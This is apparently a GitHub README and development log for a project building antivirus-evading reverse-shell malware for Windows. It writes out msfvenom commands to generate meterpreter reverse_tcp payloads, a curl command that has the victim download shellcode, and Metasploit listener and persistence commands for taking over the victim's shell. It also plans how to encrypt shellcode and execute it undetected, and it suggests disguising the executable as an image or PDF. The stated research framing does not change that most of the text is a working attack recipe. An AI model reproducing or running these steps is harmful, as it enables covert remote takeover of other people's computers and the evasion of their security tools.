 # reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus algorithms.

# 10/17/2024
Russell:

Uploaded winsock-tcp-8448.cpp and winsock-tcp-8448.exe

These are working reverse shells, but they are easily detected as malware. Obfuscation needed. 
        -to listen for winsock reverse shell as attacker: 
            
            $nc -nvlp 8448

We could obfuscate using caesar cipher. It would go undectected by windows security; however, not completely undetected
    on virustotal. 
    (see https://www.youtube.com/watch?v=hjNLylCAmBo&list=PLT3EmOikjcyY2t6zVJT7rSB1sqK2IMq4e&index=2&ab_channel=RedSiege)

"Jigsaw" and "Jargon" encryption techniques seem to be effective at avoiding detection. 

Basically where we are at right now is we have functional reverse shell executables and a shellcode version of it. We need to create a python program
to encrypt the shellcode. then, we need to make a c program that takes the shellcode as input, decrypts, and executes it- all without detection by antivirus.
Check out the PDF file i uploaded Generating-Antivirus-Evasive-Executables-Using-Code-Mutation.pdf"
It is a short and sweet explanation of what we are trying to accomplish.
    

# 10/16/2024
Russell:

  uploaded payload-revshell-8448.exe
  
  uploaded shellcode-tcp-8448-c

      payload-revshell-8448.exe is a WORKING windows executable which connects to the attacker listening! It was compiled using msfvenom.
    the only down side is that it is easily detectable by antivirus (that is a good thing ethically- obviously)

      Now, we could call it a day and just convert the exe to a .jpg or .pdf (see https://www.youtube.com/watch?v=cXEkSQl9wmw&ab_channel=ebolaman)
      BUT our purposal that we execute obfuscated shellcode.
    
      We want to expose a day0 trojan.... so we still need to obfuscate the shellcode version of this exe that was compiled by msfvenom
    (see shellcode-tcp-8448-c.txt)

    This executable works so then we should be able to execute this shellcode.
  
  Steps needed in the main c program:
  
      - Download shellcode payload (HTTP GET REQUEST) OR use shellcode-tcp-8448-c.txt file in repo
      
      - parse shellcode properly:
          - there should be no Null bytes (0x00), Line feeds (0x0A), carriage returns (0x0D), or Form feeds (0x0C)
          - only the shellcode instructions stored into char* memBuffer. 
          - then, loop through memBuffer[] and save contents as hexidecimal machine code to the dynamically 
              allocated unsigned char shellcode[]
              
      - execute machine code within shellcode[]

  Uploaded main.cpp

    Right now, the main.cpp downloads the shellcode, converts it to dynamic allocated memory that is reconizable to the system as hexidecimal instructions , and prints the the converted shellcode.
    
  Here is the shellcode before conversion:
  
  ![Before](payload-before-conversion.png)

  Here is the shellcode after conversion:
  
  ![After](payload-after-conversion-raw.png)


    We still need to figure out how to execute this shellcode so that it connects the user to the attacker.


  # 10/15/2024
  To-do: create a c program to download the shellcode and execute it. 
  
Russell:
          Check out this code generated by chatGPT:     https://chatgpt.com/share/670ecd31-e6f4-8007-975a-aa463a4bbc49
           It lays the foundation for what we are attempting to do. It has not been tested thoroughly but is a good reference
           to the steps required for the program executable.



# 10/14/2024:
    
Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded payload-22.c

  To create a payload (using kali):
            
      $msfvenom -p windows/meterpreter/reverse_tcp lhost={IP of attacker} lport={port #} --format c -o payload-22.c -b "\x00\x0A\x0\x0C\x0D"

  An alternative would be to check out www.exploit-db.com/shellcodes/ for people who create their own shellcode generators. 
      These can be less detectable
  Here's one i found:
  https://github.com/senzee1984/micr0_shell
      
  To download the shellcode as a victim via web server:
    
      $curl {your http web server}/download.php > payload-22.txt
      
  Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

  To run a listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

  Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to ensure persistence and enter the shell of the victim:

      $run persistence -p {attacker port} -r {attacker IP}
      $shell



  For a broad video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ


      

  

    

